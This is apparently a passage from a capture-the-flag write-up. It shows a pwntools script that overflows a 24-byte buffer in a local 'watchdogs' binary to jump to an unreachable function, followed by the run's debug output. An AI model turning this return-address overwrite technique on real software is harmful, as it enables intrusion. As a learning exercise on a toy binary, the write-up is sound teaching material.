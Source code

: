 ```python
padding = 24

payload = flat(
    b'A' * 24,
    elf.functions.watchdogs  # 0x00401146
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```
Let's run the code and see the output
```shell
~/Documents/coding/c$ python3 watchdogs.py
[+] Starting local process './watchdogs': pid 48776
[DEBUG] Received 0x22 bytes:
    b'Enter your favourite video game :\n'
[DEBUG] Sent 0x21 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  46 11 40 00  00 00 00 00  │AAAA│AAAA│F·@·│····│
    00000020  0a                                                  │·│
    00000021
[*] Switching to interactive mode

[DEBUG] Received 0x53 bytes:
    00000000  59 6f 75 72  20 66 61 76  6f 75 72 69  74 65 20 76  │Your│ fav│ouri│te v│
    00000010  69 64 65 6f  20 67 61 6d  65 73 20 69  73 20 2c 20  │ideo│ gam│es i│s , │
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000030  41 41 41 41  41 41 41 41  46 11 40 0a  4c 65 74 27  │AAAA│AAAA│F·@·│Let'│
    00000040  73 20 70 6c  61 79 20 57  34 74 63 68  64 30 67 35  │s pl│ay W│4tch│d0g5│
    00000050  3a 4f 0a                                            │:O·│
    00000053
Your favourite video games is , AAAAAAAAAAAAAAAAAAAAAAAAF\x11@
Let's play W4tchd0g5
[*] Got EOF while reading in interactive
$ 
[*] Process './watchdogs' stopped with exit code -11 (SIGSEGV) (pid 48776)
```
We were able to execute our unreachable function W4TCHD0G5